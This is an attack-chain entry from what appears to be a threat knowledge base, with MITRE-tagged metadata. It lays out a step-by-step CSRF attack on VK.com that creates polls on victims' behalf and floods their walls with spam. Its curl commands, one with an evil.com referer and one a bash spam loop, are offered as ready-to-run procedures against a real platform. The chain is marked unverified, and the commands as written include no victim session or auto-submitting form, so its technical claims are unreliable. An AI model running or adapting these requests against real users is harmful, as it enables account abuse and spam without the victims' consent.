

---
tags:
  - csrf
  - web
  - account-abuse
  - spam
  - vk.com
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Impact]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-CSRF-to-Create-VK-Poll]]'
  - '[[procedures/Flood-Messages-on-VK-User-Wall]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:27:23.556Z'
description: >-
  A multi-stage attack leveraging a CSRF vulnerability in VK.com's application
  system to create polls on behalf of authenticated users and perform minor
  message flooding on their wall, enabling account abuse and spam.
skill_level: intermediate
impact_level: medium
id: 64ba51a9-2786-44ae-b2c8-586e609ace23
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Impact]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# CSRF Exploitation in VK.com to Create Unauthorized Polls and Flood User Wall

Multi-stage attack chain demonstrating exploitation of a CSRF flaw in VK.com's poll creation feature via known application IDs, followed by message flooding for abuse.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser or proxy tool like Burp Suite for request crafting

### Target Environment

- VK.com web platform
- Authenticated user session (victim must be logged in)
- Knowledge of a VK application ID

### Initial Access Requirements

- No direct credentials needed; relies on victim's active session
- Attacker must be able to deliver a malicious link or form (e.g., via phishing or social engineering)
- Network access to VK.com

## Detailed Attack Procedures

### Step 1: Identify Target App ID

**Objective**: Obtain a valid VK application ID to target the CSRF-vulnerable poll creation endpoint.

**Instructions**: Research public VK applications or use developer tools to inspect existing apps. For example, browse VK.com apps and extract IDs from URLs or API calls.

**Expected Output**: A numeric app ID (e.g., 123456).

**Success Indicators**:
- Valid app ID retrieved
- Endpoint accessibility confirmed via browser inspection

### Step 2: Exploit CSRF for Poll Creation

procedure: [[procedures/Exploit-CSRF-to-Create-VK-Poll]]

**Objective**: Craft and submit a CSRF request to create a poll on the victim's behalf without proper token validation.

**Instructions**: Use a tool like curl to simulate the request, replacing placeholders with the app ID and poll details. Ensure the victim is logged in and visits a malicious page that auto-submits the form.

```bash
curl -X POST 'https://vk.com/al_apps.php' \
  -d 'act=polls_create' \
  -d 'app_id=123456' \
  -d 'poll_question=Test Poll' \
  -d 'poll_options=Option1|Option2' \
  -H 'Cookie: vk_app=123456;' \
  --referer 'https://evil.com'
```

**Expected Output**: Poll created on victim's wall or profile.

**Success Indicators**:
- Unauthorized poll appears in victim's account
- No CSRF token required in response

### Step 3: Flood Wall Messages

procedure: [[procedures/Flood-Messages-on-VK-User-Wall]]

**Objective**: Leverage insufficient rate limiting to post multiple messages on the victim's wall, causing spam.

**Instructions**: After poll creation, chain into repeated wall posts using similar crafted requests. Use a loop in a script or manual repetition.

```bash
for i in {1..10}; do
  curl -X POST 'https://vk.com/al_wall.php' \
    -d 'act=post' \
    -d 'al=1' \
    -d 'app_id=123456' \
    -d 'message=Flood message $i' \
    -H 'Cookie: vk_app=123456;'
  sleep 1
done
```

**Expected Output**: Multiple spam messages posted to wall.

**Success Indicators**:
- Messages appear without rate limit enforcement
- Victim's wall cluttered with spam

## Attack Chain Summary

### Key Achievements

1. Bypassed CSRF protections to create unauthorized content
2. Enabled account abuse through automated actions
3. Demonstrated potential for spam via flooding

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Impact]]

---
*Last updated: 2023-10-01T00:00:00Z*
